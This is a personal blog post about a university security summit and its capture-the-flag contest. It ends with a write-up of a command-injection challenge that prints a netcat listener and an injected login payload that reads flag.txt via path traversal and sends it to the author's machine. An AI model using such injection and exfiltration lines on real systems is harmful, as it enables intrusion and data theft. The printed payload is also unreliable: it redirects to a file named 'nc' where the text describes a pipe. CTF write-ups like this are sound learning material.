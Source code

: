 ```yaml
---
layout: blog
---
```


This Saturday I had the great opportunity of participating in Virginia Tech's Cyber Security Summit, a day-long event which included a guest speaker and CTF competition.  Having been competing in CTFs for a few months now I thought this would be a great opportunity to see how these competitions are  done at higher, more advanced levels, and how the subject matter of computer security is applied.

The guest speaker for the event did a great job of detailing how a variety of web attacks can have real-life implications in industrial plants and businesses.  He used multiple intuitive Windows tools and managed to easily own multiple systems using vulnerabilities inherent in thousands of sensitive applications on the web, a process I found very interesting and frightening at the same time.

Although this was a great insight on the real world of computer security and the issues it brings when neglected, the fun began with the CTF competition. Since I have never done an in-person CTF, only on-line qualifiers, I had no idea what to expect and came in with high hopes.  I was not dissapointed in the slightest, as this was a very well-designed and exciting competition.

The organizers of the event began by posting a single IP address on the whiteboard, which when put into a web browser brought up a blank page.  After some thinking and playing around we realized that the IP was an internal one in the building network, as it was very simple and started with a 10, and so we decided to use `nmap` to find IPs with similar starting digits.  We found about 7 different IPs and those led to challenges and the scoring site.  I think the way they decided to start the CTF was very resourceful, taking advantage of the physical location, and set the stage for the rest of the competition.

## Magical netcat

My four-person team managed to solve two of the challenges to finish in 4th place. I mostly worked on the challenge hosted on server 16, and consisted of a simple HTML login with no information and a title saying "Create a Shell Account!".  Whatever was submitted to the login field returned a screen saying that the account was created.  Although at first we were stumped on what to do with the challenge, as it was invulnerable to SQL injections, a few hints dropped by the organizers led us to think that maybe the login could be used as a full linux shell.

I realized after that revelation that the script was simply inputing the login information from the field into the bash command `useradd`, and so by adding a semicolon to the end of the command, `useradd;`, we would be able to execute any bash command. The only problem was that after execution the page simply stated that the account was created and gave no mention as to what the command did or what output it produced.  After considering few different ways of overcoming this dilema, I decided that setting up a `netcat` service to listen on my computer and then pipe the result from the login into netcat to my computer would be the most efficient way to see the results.  After exploring the filesystem by executing `ls` for a few minutes I found the `flag.txt` file, completing the challenge.  The commands I ended up using were these:

Laptop: `nc -l 8080 > flag.txt`

Server (Username field): `a; cat ../../../../flag.txt > nc MYIP 8080;`

Overall I found the event to be a great experience, allowing me to see how computer security ties into real life and also providing my team and I with an amazingly fun and entertaining CTF. Thanks to everyone who organized it and I can't wait to attend next year!
